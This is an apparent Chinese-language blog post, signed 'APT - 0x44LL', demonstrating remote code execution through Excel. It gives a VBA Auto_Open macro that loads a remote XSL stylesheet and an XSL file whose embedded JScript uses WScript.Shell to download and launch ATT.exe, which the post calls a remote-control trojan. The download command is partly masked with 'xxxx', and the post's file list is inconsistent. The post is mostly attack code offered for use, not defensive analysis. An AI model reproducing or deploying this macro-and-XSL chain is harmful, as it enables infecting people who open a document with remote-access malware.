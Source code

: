```yaml
---
title: EXCEL远程执行
author: APT - 0x44LL
date: 2021-01-17
category: Jekyll
layout: post
---
```


## EXCEL远程执行演示
<video src="/public/video/RemoteExecution.mp4" width="750px" height="500px" controls="controls"></video>

## 准备工作：<br>
**1.创建以下两个文件<br>**
<font color=Red>
excel.xsl<br>
ATT.xsl<br>
ATT.exe<br>
</font>
---

> excel.xsl

```
Sub Auto_Open()
    Set XML = CreateObject("Microsoft.XMLDOM")
    XML.async = False
    Set xsl = XML
    xsl.Load "http://127.0.0.1:80/ATT.xsl"
    XML.transformNode xsl
End Sub
***

> ATT.xsl

```
<xsl:stylesheet 
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
xmlns:ms="urn:schemas-microsoft-com:xslt" 
xmlns:user="placeholder" 

version="1.0">
<ms:script implements-prefix="user" language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run("cmd xxxxx -xx 127.0.1.1/ATT.exe xxxx/ATT.exe & start xxxx/ATT.exe",0);
  ]]>
</ms:script>
</xsl:stylesheet>
```

> ATT.exe

```
这是远控生成的木马
```

**<font color=Red face="黑体">将ATT.xsl调用ATT.exe执行,当excel.xsl打开就会进行远程加载ATT.xsl并下载在本地执行ATT.exe木马程序；</font>**

